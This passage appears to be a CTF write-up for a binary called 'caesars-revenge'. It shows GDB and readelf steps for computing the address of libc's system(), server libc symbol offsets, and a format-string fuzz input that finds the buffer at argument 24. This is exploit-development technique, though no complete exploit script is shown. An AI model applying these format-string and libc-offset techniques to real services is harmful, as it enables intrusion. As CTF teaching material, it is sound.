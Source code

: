     # readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system           
      1418: 00000000000449c0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5


With this, test our offset in GDB across multiple instances

    // Get the current addresses
        (gdb) printf "%p\n", system                                            
        0x7ffff7e499c0
    
        (gdb) printf "%p\n", __libc_start_main
        0x7ffff7e28fb0

    // Calculate offset from 2nd parameter
        (gdb)  printf "%d\n", __libc_start_main - 0x7ffff7fc28c0
        -1677584

    // Calculate __libc_start_main
        (gdb) printf "%p\n", (0x7ffff7fc28c0 - 1677584)
        0x7ffff7e28fb0

    // Calculate system() using offerts
        (gdb) printf "%p\n", (0x7ffff7fc28c0 - 1677584 - (0x023fb0 - 0x0449c0))
        0x7ffff7e499c0

#### Calculation to system (Server)

We know the Libc version of the server (stated by the admins). We can look up on this website.

https://libc.blukat.me/d/libc6_2.23-0ubuntu11_amd64.symbols

    __libc_start_main 0000000000020740
    system 0000000000045390
    __after_morecore_hook 00000000003c67a0

#### Printf Offset to buffer

Fuzz

    (echo 'ABCDEFGH %lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp %08lp'; echo '26';) | ./caesars-revenge 

Find offset at 24

     # ./caesars-revenge 
    Welcome to the Caesar Cipher Encoder!
    Enter text to be encoded: ABCDEFGH %24$lp
    Enter number of characters to shift: 26
    Result: ABCDEFGH 0x4847464544434241

#### Solving

We have all the things we need. Now we can solve. It is similar to my past CTF code. More explanation over there.
